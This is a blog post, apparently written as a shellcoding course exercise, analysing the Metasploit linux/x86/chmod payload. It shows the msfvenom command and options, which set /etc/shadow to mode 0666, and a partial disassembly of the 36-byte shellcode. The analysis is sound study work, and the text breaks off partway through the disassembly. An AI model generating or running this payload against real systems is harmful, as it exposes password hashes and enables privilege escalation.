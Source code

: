 ```yaml
---
layout: post
title: Metasploit Linux x86 chmod Analysis
tags: [slae]
---
```


Continuing on with the next Metasploit payload analysis. This time we'll be examining the `linux/x86/chmod` payload and seeing exactly how it works. 

Like last time we'll first start by checking out the payload options.

```
root@kali:~# msfvenom -p linux/x86/chmod --payload-options
Options for payload/linux/x86/chmod:


       Name: Linux Chmod
     Module: payload/linux/x86/chmod
   Platform: Linux
       Arch: x86
Needs Admin: No
 Total size: 36
       Rank: Normal

Provided by:
    kris katterjohn <katterjohn@gmail.com>

Basic options:
Name  Current Setting  Required  Description
----  ---------------  --------  -----------
FILE  /etc/shadow      yes       Filename to chmod
MODE  0666             yes       File mode (octal)

Description:
  Runs chmod on specified file with specified mode
``` 

We can see that FILE and MODE are by default setting /etc/shadow to read and write for all users. Let's keep these options and start by first examining the assembly with `ndisasm`.

```
root@kali:~# msfvenom -p linux/x86/chmod -f raw | ndisasm -u -
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 36 bytes

00000000  99                cdq
00000001  6A0F              push byte +0xf
00000003  58                pop eax
00000004  52                push edx
00000005  E80C000000        call 0x16
0000000A  2F                das
0000000B  657463            gs jz 0x71
0000000E  2F                das
0000000F  7368              jnc 0x79
00000011  61                popa
00000012  646F              fs outsd
00000014  7700              ja 0x16
00000016  5B                pop ebx
00000017  68B6010000        push dword 0x1b6
0000001C  59                pop ecx
0000001D  CD80              int 0x80
0000001F  6A01              push byte +0x1
```